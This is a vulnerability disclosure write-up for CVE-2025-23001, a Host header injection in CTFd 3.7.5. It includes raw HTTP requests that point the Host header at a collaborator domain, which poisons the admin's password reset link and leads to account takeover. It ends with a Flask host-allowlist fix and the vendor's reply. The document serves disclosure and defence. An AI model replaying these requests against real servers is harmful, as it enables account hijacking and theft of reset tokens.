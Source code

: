 ```yaml
---
last_update: 2025-05-02 10:15:00
---
```


# POC CVE-2025-23001 CTFd 3.7.5

> Posted by TheWindGhost — 31/01/2025, Updated: 19/04/2025
>
> Report co-authors:
>
> - h??? (PTIT Ho-Chi-Minh City)
> - thD (VLUTE Vinh-Long City)
> - taneora (HUST Ha-Noi City)

The vulnerability was originally discovered by **TheWindGhost** (Security Researcher), who was the first to identify and
confirm the issue. Co-Authors contributed technical write-up, report structuring, and analysis.

---

## 1. Introduction

I first examined the CTFd source code and noticed that it did not secure or filter the Host header. This is where the
vulnerability starts.

![MITRE Reply With CVE-ID](https://thewindghost.github.io/posts/image-post/cve-2025-23001/1.png)

---

![Host Header Injection POC](https://thewindghost.github.io/posts/image-post/cve-2025-23001/2.png)

---

## 2. Host Header Injection

The request looks like this:

```http
- Test Host Header Injection
GET / HTTP/2
Host: 0ghb7us820bm4l90zd2vvixkhbn2bszh.oastify.com
Cookie: delete
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36…
Accept: text/html,application/xhtml+xml,...
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

I changed the Host header to use my Burp Suite collaborator. If the request is received by my server, this is a bug.

---

## 3. Exploit the Vulnerability & Steps to Exploit Reset Password

I logged into my user account and reset my password. The password reset token was included in the URL. Next, I attempted
to exploit this to reset the admin’s password.
![Reset Link Real](https://thewindghost.github.io/posts/image-post/cve-2025-23001/3.png)

I obtained the admin’s email from Discord and sent a request to reset the password:
![Password Reset Form](https://thewindghost.github.io/posts/image-post/cve-2025-23001/4.png)

```http
- Exploit Host Header Injection
POST /reset_password HTTP/2
Host: zx0aot97jzsllkqzgcjuchejya41ssgh.oastify.com
Cookie: delete
Content-Length: 120
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Origin: https://
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)…
Accept: text/html,application/xhtml+xml,...
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=mail-victim%40gmail.com&_submit=Submit&nonce=fake-937dd2059eb240c25ca77ff5743d4aee
```

And i change domain collaborator in host header request
![Hijacked Password Reset](https://thewindghost.github.io/posts/image-post/cve-2025-23001/5.png)

Then, I waited for the admin to click the reset link and successfully hijacked the password reset process.
![Hijacked Successfully](https://thewindghost.github.io/posts/image-post/cve-2025-23001/6.png)

Okay and we will reset password for login account admin.
![Reset Password Account Admin Screenshot](https://thewindghost.github.io/posts/image-post/cve-2025-23001/7.png)

Finally, I successfully exploited the vulnerability. One hour later, I spoke with the developer, but he didn’t understand that I had hacked and gained access to his account. I explained it to him and asked him to send me a screenshot of the email.

![Admin Account Access](https://thewindghost.github.io/posts/image-post/cve-2025-23001/8.png)
![Email Screenshot](https://thewindghost.github.io/posts/image-post/cve-2025-23001/9.png)

---

## 5. Security Fix

```python
- To secure against this vulnerability, add the following code:
import os
import re
from flask import request, abort
from CTFd import create_app

ALLOWED_HOSTS = {
"example.com", # change domain server
"192.168.1.1", # change ip public
}

ALLOWED_PROXIES = {"127.0.0.1", "192.168.1.1"} # change ip public

BLOCKED_HOST_REGEX = re.compile(r"^(localhost|127\.0\.0\.1|0\.0\.0\.0|::1|local)$", re.IGNORECASE)

app = create_app()

@app.before_request
def strict_host_protection():
host = request.headers.get("Host", "").split(":")[0]
forwarded_host = request.headers.get("X-Forwarded-Host", "").split(":")[0]
remote_addr = request.remote_addr
forwarded_for = request.headers.get("X-Forwarded-For", "").split(",")[0].strip()
real_ip = forwarded_for if forwarded_for else remote_addr

if forwarded_host and forwarded_host not in ALLOWED_HOSTS:
print(f"[SECURITY] block: {forwarded_host} -> {real_ip}")
abort(400)

if remote_addr in ALLOWED_PROXIES:
if BLOCKED_HOST_REGEX.match(host) or host not in ALLOWED_HOSTS:
print(f"[SECURITY] block: {host} -> {real_ip}")
abort(400)
else:
abort(400)

if __name__ == "__main__":
app.run(debug=False, host="127.0.0.1", port=4000)
```

Apply my security code to safeguard against this vulnerability and ensure we are protected!
![Reproduce HHI Again](https://thewindghost.github.io/posts/image-post/cve-2025-23001/10.png)
![Email Dev](https://thewindghost.github.io/posts/image-post/cve-2025-23001/11.png)

---

## 6. Vendor Response

When I reached out to the CTFd vendor, they told me that users need to configure Nginx for security. However, according to cybersecurity best practices, security should be built by design and by default. CTFd does not follow this policy.

**MITRE** accepted my submission based on this reasoning.

I would like to express my gratitude to **MITRE** for its fairness in managing CVE updates.
![Secure by default and design](https://thewindghost.github.io/posts/image-post/cve-2025-23001/12.png)

> **Secure by Design and Secure by Default**
>
> - [Beginner’s Guide on Secure byDesign](https://safestack.io/blog/resources/secure-by-design-and-default-a-beginners-guide)
> - [CISA: Secure by Design](https://www.cisa.gov/securebydesign)
